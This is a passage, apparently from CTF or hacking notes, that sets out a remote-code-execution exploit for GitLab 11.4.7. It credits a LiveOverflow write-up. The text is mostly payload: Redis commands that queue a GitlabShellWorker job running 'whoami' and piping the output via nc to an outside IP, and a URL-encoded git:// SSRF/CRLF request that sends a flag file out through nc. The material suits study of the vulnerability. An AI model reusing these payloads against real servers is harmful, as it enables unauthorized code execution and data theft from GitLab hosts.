 ```bash
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.x.x 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

And the URL encode request abusing SSRF and CRLF to execute a whoami and send back the output via nc is:

```bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
#For some reason (as for the author of https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/ where this info was took from) the exploitation worked with the git scheme and not with the http scheme.
```